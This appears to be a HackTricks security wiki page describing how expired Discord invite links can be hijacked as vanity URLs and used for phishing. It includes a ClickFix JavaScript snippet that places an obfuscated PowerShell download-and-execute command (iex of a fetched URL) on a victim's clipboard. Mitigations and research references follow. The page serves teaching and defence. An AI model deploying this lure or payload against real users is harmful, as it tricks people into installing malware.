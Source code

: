 # Discord Invite Hijacking

{{#include ../../banners/hacktricks-training.md}}

Discord’s invite system vulnerability allows threat actors to claim expired or deleted invite codes (temporary, permanent, or custom vanity) as new vanity links on any Level 3 boosted server. By normalizing all codes to lowercase, attackers can pre-register known invite codes and silently hijack traffic once the original link expires or the source server loses its boost.

## Invite Types and Hijack Risk

| Invite Type           | Hijackable? | Condition / Comments                                                                                       |
|-----------------------|-------------|------------------------------------------------------------------------------------------------------------|
| Temporary Invite Link | ✅          | After expiration, the code becomes available and can be re-registered as a vanity URL by a boosted server. |
| Permanent Invite Link | ⚠️          | If deleted and consisting only of lowercase letters and digits, the code may become available again.        |
| Custom Vanity Link    | ✅          | If the original server loses its Level 3 Boost, its vanity invite becomes available for new registration.    |

## Exploitation Steps

1. Reconnaissance
   - Monitor public sources (forums, social media, Telegram channels) for invite links matching the pattern `discord.gg/{code}` or `discord.com/invite/{code}`.
   - Collect invite codes of interest (temporary or vanity).
2. Pre-registration
   - Create or use an existing Discord server with Level 3 Boost privileges.
   - In **Server Settings → Vanity URL**, attempt to assign the target invite code. If accepted, the code is reserved by the malicious server.
3. Hijack Activation
   - For temporary invites, wait until the original invite expires (or manually delete it if you control the source).
   - For uppercase-containing codes, the lowercase variant can be claimed immediately, though redirection only activates after expiration.
4. Silent Redirection
   - Users visiting the old link are seamlessly sent to the attacker-controlled server once the hijack is active.

## Phishing Flow via Discord Server

1. Restrict server channels so only a **#verify** channel is visible.
2. Deploy a bot (e.g., **Safeguard#0786**) to prompt newcomers to verify via OAuth2.
3. Bot redirects users to a phishing site (e.g., `captchaguard.me`) under the guise of a CAPTCHA or verification step.
4. Implement the **ClickFix** UX trick:
   - Display a broken CAPTCHA message.
   - Guide users to open the **Win+R** dialog, paste a preloaded PowerShell command, and press Enter.

### ClickFix Clipboard Injection Example

```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
            `$u=($r[-1..-($r.Length)]-join '');` +
            `$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
            `iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```

This approach avoids direct file downloads and leverages familiar UI elements to lower user suspicion.

## Mitigations

- Use permanent invite links containing at least one uppercase letter or non-alphanumeric character (never expire, non-reusable).
- Regularly rotate invite codes and revoke old links.
- Monitor Discord server boost status and vanity URL claims.
- Educate users to verify server authenticity and avoid executing clipboard-pasted commands.

## References

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/
- Discord Custom Invite Link Documentation – https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link

{{#include /src/banners/hacktricks-training.md}}
